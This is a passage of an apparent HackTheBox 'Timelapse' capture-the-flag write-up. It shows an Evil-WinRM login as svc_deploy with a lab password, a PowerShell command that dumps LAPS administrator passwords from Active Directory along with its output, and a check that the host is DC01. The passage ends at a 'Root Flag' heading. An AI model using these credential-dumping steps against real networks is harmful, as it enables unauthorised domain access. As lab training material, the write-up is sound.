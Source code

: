 ```text
svc_deploy
TRX
```

## Evil-WinRM As User SVC_Deploy

I can't do a lot as this current user, lets swap to the svc_deploy account we found:

```sh
*Evil-WinRM* PS C:\Users\legacyy\Documents> exit
Enter PEM pass phrase:
Info: Exiting with code 0

┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.3
Warning: SSL enabled
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```

## LAPS

I spent a while looking around with nothing obvious jumping out. Looking back at the WinPEAS output we see it found LAPS is installed in the registry. We also saw at the start on the HelpDesk share there were the LAPS installation docs and file. And then the box name makes sense TimeLapse!

LAPS manages the local admin password, rotating it on a set frequency. [This](https://www.recastsoftware.com/resources/overview-of-microsoft-laps-local-administrator-password-solution/) is a guide to all things LAPS. I also found [this](https://smarthomepursuits.com/export-laps-passwords-powershell/) which was helpful, from that I dumped the LAPS password from AD:

```text
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> get-adcomputer -filter * -properties ms-mcs-admpwd | select name,ms-mcs-admpwd

name  ms-mcs-admpwd
----  -------------
DC01  1;s(T[,8/k6k8+n1e8Jh+Q@r
DB01
WEB01
DEV01
```

Checking which server we are on we find it's DC01:

```text
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> hostname
dc01
```

## Root Flag
